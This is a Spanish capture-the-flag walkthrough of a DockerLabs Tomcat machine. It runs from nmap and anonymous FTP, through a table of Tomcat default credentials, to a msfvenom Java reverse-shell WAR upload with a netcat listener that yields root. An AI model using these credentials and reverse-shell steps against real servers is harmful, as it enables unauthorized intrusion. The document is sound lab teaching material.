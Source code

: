 #-Pn DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

Realizamos un escaneo con nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 00:13 CEST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 00:13 (0:00:06 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 00:13 (0:00:00 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 95.79% done; ETC: 00:13 (0:00:00 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 00:13 (0:00:00 remaining)
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
|_http-favicon: Apache Tomcat
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.43 seconds
```

Vemos que podemos acceder al servidor ftp sin contraseña.
Entramos y encontramos un fichero ".txt":

```shell
└─$ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

```shell
ftp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||11583|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |*|    74        1.10 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (169.24 KiB/s)
```


```shell
└─$ cat tomcat.txt 
Hello tomcat, can you configure the tomcat server? I lost the password...

```

Bueno... nada interesante seguimos, antes de entrar a la página web haremos un escaneo de subdominios con gobuster:

```shell
└─$ gobuster dir -u "http://172.17.0.2:8080/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 841]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 841]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 841]
/http%3A%2F%2Fblog    (Status: 400) [Size: 841]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 841]
/External%5CX-News    (Status: 400) [Size: 795]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 841]
/http%3A%2F%2Fradar   (Status: 400) [Size: 841]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 841]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 841]
/http%3A%2F%2Fswik    (Status: 400) [Size: 841]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Tampoco nada interesante... Probaremos a entrar en la pagina web..
Entrando en "http://172.17.0.2:8080/" encontramos una pagina de Apache Tomcat version 9.0.88.
Si nos fijamos bien podemos encontrar un panel de login:


![Captura de pantalla 2024-05-15 005242](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/45b0b2bf-4bd1-4a4f-988c-6191a990fc90)
![Captura de pantalla 2024-05-15 010522](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/dafa213a-5a85-4fb5-920a-e7e2e5426951)

Contraseñas default de tomcat:

# Apache Tomcat Default Credentials

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

Entramos y encontramos un apartado donde podemos subir archivos ".war".
Entramos a "https://revshells.com/" y buscamos la opcion de archivo .war con msfvenom:

```shell
msfvenom -p java/shell_reverse_tcp LHOST=127.17.0.2 LPORT=9001 -f war -o shell.war
```

![Captura de pantalla 2024-05-15 005818](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/8ac19833-b7f8-4ef5-bf61-4fbb78176212)

Abrimos un puerto de escucha con netcat:

```shell
nc -lvnp 9001
```

Lo subimos y lo llamamos:

![Captura de pantalla 2024-05-15 010324](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/a2b89848-d5b9-4110-b001-cf057ac5a903)
![Captura de pantalla 2024-05-15 010345](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/13592867-97e0-44cb-b8f1-11548b626743)


Y ahora tenemos control y con todos los permisos:

```shell
#whoami
root
```
